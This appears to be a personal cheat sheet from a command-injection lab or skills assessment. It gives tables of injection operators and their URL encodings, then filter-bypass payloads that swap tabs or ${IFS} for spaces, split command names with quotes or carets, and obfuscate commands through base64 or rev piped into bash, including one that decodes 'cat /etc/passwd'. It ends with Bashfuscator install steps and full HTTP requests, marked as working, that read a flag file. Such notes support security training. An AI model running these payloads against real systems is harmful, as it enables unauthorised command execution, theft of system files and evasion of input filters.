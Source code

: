 - `;ls`
- `$(ls)`
- `` `ls` ``
- `&ls`
- `&&ls`
- ` |ls`


| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |
| Space                  | %09                     | %09                       | Use tab character instead of space         |

| **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                |
- 127.0.0.1%0als (worked)

### Space Filter 

- `127.0.0.1%0als%09-la`  (Spaces)
	- `127.0.0.1` → valid input for the ping
	- `%0a` → newline operator to start a new command
	- `ls%09-la` → `ls -la` using a **tab** instead of space

### Bypassing Other Blacklisted Characters
- `echo ${PATH}` gives us the output  `/usr/local/bin:/usr/bin:/bin:/usr/games`
So, if we start at the `0` character, and only take a string of length `1`, we will end up with only the `/` character, which we can use in our payload:
- `echo ${PATH:0:1}` gives us the output  `/`
similarly 
- `$env:HOMEPATH[0]`
- `echo ${LS_COLORS:10:1}`
- `echo ${PATH:0:1}`
- `${IFS}${PATH:0:1}`(worked)
- `${PATH:0:1}` (worked)

# Bypassing Blacklisted Commands


- `w'h'o'am'i` (Linux & Windows)
- `w"h"o"am"i` (Linux & Windows)
- `who$@ami (Linux Only)
- `w\ho\am\i`  (Linux Only)
- `who^ami`  (Windows Only)

example worked 
`ip=127.0.0.1%0ac'a't%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt`

# Advanced Command Obfuscation

- `WhOaMi`
- `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`
- `$(a="WhOaMi";printf %s "${a,,}")`
- `echo 'whoami' | rev`
- `$(rev<<<'imaohw')`
- `"whoami"[-1..-20] -join ''
- `iex "$('imaohw'[-1..-20] -join '')"`
- `echo -n 'cat /etc/passwd | grep 33' | base64`
-  `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
- `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`
- `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`
- `base64%09$-d%09$<<<%09$'fA=` is equals to `|` in base-64 obfuscation 


Worked for the command  `find /usr/share/ | grep root | grep mysql | tail -n 1`

````
ip=127.0.0.1%0a$(rev<<<'hsab')<<<$($(rev<<<'46esab')${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
````


# Evasion Tools

```bash
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
./bashfuscator -c 'cat /etc/passwd'
```


## # Skills Assessment

`%26$()'l's` worked as of full request is below

```
GET /index.php?to=tmp%26$()'l's&from=2561732172.txt&finish=1&move=1 HTTP/1.1
```

#### Flag
```
GET /index.php?to=tmp%26$()c'a't${IFS}${PATH:0:1}flag.txt&from=2561732172.txt&finish=1&move=1 HTTP/1.1
```